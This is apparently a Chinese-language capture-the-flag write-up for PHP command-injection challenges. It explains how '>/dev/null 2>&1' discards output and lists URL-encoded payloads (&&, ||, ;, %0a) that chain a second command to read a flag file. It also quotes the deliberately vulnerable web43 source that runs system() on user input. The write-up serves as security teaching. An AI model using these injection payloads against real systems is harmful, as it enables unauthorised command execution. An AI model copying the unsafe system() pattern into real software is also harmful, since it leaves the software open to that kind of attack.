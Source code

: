 等同于 1>/dev/null ，就是将标准输出重定向到 /dev/null 中，																				/dev/null代表 linux 的空设备文件，所有往这个文件里面写入的内容都会丢失，俗称“黑洞”。

所以如果我们使用cat进行查询的话，页面是不会有任何输出的

而， 2>&1 进行了重定向绑定，使用&可以将两个输出绑定在一起，即将错误输出绑定到标准输出的位置，也就是错误输出也写入“黑洞”了。

执行了这条命令之后，**该条shell命令将不会输出任何信息到控制台，也不会有任何信息输出到文件中**。

```php
如果
>/dev/null 2>&1
变为：
2>&1 >/dev/null  的话，意思是截然不同的
```

首先 2>&1  将错误输出重定向绑定到标准输出中，此时标准输出为屏幕，所以错误输出在屏幕中，

而 >/dev/null   等同于 1>/dev/null   将标准输出重定向到黑洞。

| 命令            | 标准输出 | 错误输出 |
| --------------- | -------- | -------- |
| >/dev/null 2>&1 | 丢弃     | 丢弃     |
| 2>&1 >/dev/null | 丢弃     | 屏幕     |



综上，我们可以写两条语句即可，前一条给system进行执行，后一条语句被输出到黑洞中了

payload:

```php
?c=cat f*%26%26				// &需要编码为 %26 因为使用的是url传参，&有其他用途
?c=cat f*%26
?c=cat f*%7C%7C 			// | 可以编码为%7C,也可以不编码
?c=cat f*||					
//不能使用一个或 |  因为|会将左边的结果作为右边的输入，这样就会将结果给丢弃(黑洞)
```

也可以使用分号 ;  这样前面的语句与后面就相分隔了

```php
?c=cat f*;
```

还可以使用 %0a 进行换行，命令不在同一行，当然不会进行输出重定向了



### web43

```php
 <?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
